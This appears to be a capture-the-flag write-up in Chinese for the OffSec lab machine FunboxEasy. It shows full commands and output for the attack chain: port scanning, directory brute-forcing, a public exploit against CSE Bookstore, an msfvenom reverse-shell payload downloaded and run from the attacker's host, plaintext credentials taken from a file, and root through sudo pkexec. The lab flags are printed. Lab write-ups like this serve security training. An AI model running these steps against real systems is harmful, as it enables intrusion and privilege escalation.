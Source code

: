 ###### tags: `Offsec` `PG Play` `Easy` `Linux`

# FunboxEasy
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.211.111 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.211.111:22
Open 192.168.211.111:80
Open 192.168.211.111:33060

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_gym
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx? syn-ack
```

buster掃，掃得`192.168.211.111/store`，還有`http://192.168.211.111/store/database/readme.txt.txt`裡面有提到帳號密碼是`admin/admin`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ feroxbuster -u http://192.168.211.111 -q -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt

...
3: complete     http://192.168.211.111/store/
59: complete     http://192.168.211.111/store/template/
62: complete     http://192.168.211.111/store/database/
200      GET       16l      134w      791c http://192.168.211.111/store/database/readme.txt.txt
200      GET      230l     2013w    15115c http://192.168.211.111/store/database/www_project.sql
...
```

透過google搜尋CSE bookstore可以找到[edb-47887](https://www.exploit-db.com/exploits/47887)，使用可得一個shell，上傳reverseshell
```
┌──(kali㉿kali)-[~/pgplay]
└─$ python3 47887.py  http://192.168.211.111/store 

┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.223 LPORT=9001 -f elf > shell_9001

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

RCE $ wget 192.168.45.223/shell_9001
RCE $ chmod +x shell_9001
RCE $ ./shell_9001
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

`/home/tony`有一個檔案`password.txt`
```
www-data@funbox3:/home/tony$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

利用ssh登入tony的帳號，`sudo -l`之後查看[GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/#sudo)的pkexec，照做可得到root shell
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh tony@192.168.211.111 

tony@funbox3:~$ sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
    
tony@funbox3:~$ sudo pkexec /bin/sh
# whoami
root
```

在`/root`取得proof.txt，在`/var/www`取得local.txt
```
root@funbox3:~# cat proof.txt
94f744ce03100134942a9bd67a01b027

root@funbox3:/var/www# cat local.txt
d9f3b7cdc8274aa1e15dbefd7d02912d
```